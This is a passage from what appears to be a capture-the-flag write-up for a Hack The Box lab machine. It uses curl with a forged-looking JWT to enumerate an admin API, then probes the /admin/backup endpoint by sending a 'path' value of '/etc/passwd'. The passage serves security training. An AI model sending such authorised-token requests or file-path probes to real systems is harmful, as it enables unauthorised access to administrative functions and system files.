 ```
    "username": "james"
  }
]
```
{% endcode %}

Earlier, we found an `/admin/backup` endpoint, so let's use that.&#x20;

<pre data-overflow="wrap"><code>$ curl -X GET http://api.mentorquotes.htb/admin/ -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' | jq

<strong>{
</strong>  "admin_funcs": {
    "check db connection": "/check",
    "backup the application": "/backup"
  }
}

$ curl -X POST http://api.mentorquotes.htb/admin/backup -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' | jq

{
  "detail": [
    {
      "loc": [
        "body"
      ],
      "msg": "field required",
      "type": "value_error.missing"
    }
  ]
}

$ curl -X GET http://api.mentorquotes.htb/admin/backup -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' | jq

{
  "detail": "Method Not Allowed"
}
</code></pre>

It appears that the `/backup` one requires a JSON input. If an empty object is supplied, it complains and asks for a `path` variable.&#x20;

{% code overflow="wrap" %}
```
$ curl -X POST http://api.mentorquotes.htb/admin/backup -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' -H 'Content-Type: application/json' -d '{"path":"/etc/passwd"}' | jq

{
  "INFO": "Done!"
}
```
{% endcode %}
